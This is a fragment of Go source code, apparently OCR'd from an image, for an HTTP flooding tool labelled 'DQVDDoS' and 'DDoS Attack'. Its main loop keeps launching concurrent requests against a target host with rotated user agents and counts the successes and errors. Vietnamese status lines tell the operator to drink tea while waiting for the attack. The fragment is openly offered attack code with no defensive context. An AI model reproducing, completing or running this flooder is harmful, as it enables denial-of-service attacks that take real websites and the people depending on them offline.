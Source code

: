 	if version {
		fmt.Println("DQVDDoS", __version__)
		os.Exit(0)
	}

	if agents != "" {
		if data, err := ioutil.ReadFile(agents); err == nil {
			headersUseragents = []string{}
			for _, a := range strings.Split(string(data), "\n") {
				if strings.TrimSpace(a) == "" {
					continue
				}
				headersUseragents = append(headersUseragents, a)
			}
		} else {
			fmt.Printf("can'l load User-Agent list from %s\n", agents)
			os.Exit(1)
		}
	}

	go func() {
		fmt.Println("╔═══════════════════╗")
		fmt.Println(" Mod Update By Vinh ")
		fmt.Println("    DDoS Attack     ") 
		fmt.Println("╚═══════════════════╝")
		ss := make(chan uint8, 8)
		var (
			err, sent int32
		)
		for {
			if atomic.LoadInt32(&cur) < int32(maxproc-1) {
				go httpcall(s, u.Host, data, headers, ss)
			}
			if sent%100000 == 0 {
				fmt.Printf("\r%6d ... %-6d ~\t%7d ~\t%6d ", cur, maxproc, sent, err)
				fmt.Println("Uống một tách trà chờ cuộc tấn công")
			}
			switch <-ss {
			case callExitOnErr:
				atomic.AddInt32(&cur, -1)
				err++
			case callExitOnTooManyFiles:
				atomic.AddInt32(&cur, -1)
				maxproc--
			case callGotOk:
				sent++
			case targetComplete:
				sent++
				fmt.Printf("\r%-6d ddos %-6d ~\t%7d ~\t%6d", cur, maxproc, sent, err)
				fmt.Println("\r-- Kết thúc cuộc tấn công --       \n\n\r")
				os.Exit(0)
			}
		}
	}()
